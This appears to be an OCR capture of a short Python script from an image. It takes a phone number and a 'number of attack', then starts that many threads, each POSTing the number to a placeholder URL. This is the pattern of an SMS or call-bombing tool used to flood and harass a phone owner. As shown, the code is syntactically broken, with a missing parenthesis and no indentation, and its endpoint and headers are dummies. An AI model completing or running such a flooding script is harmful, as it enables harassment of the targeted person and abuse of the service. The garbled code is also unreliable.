 import requests,threading
from threading import Thread

print("abc")
phone = input("phone : ")
z = int(input("number of attack : ")

def a():
requests.post("http://a.co", data = {"a":phone}, headers = {"abc": "1"})
print("success")

for i in range(z):
threading.Thread(target=a).start()
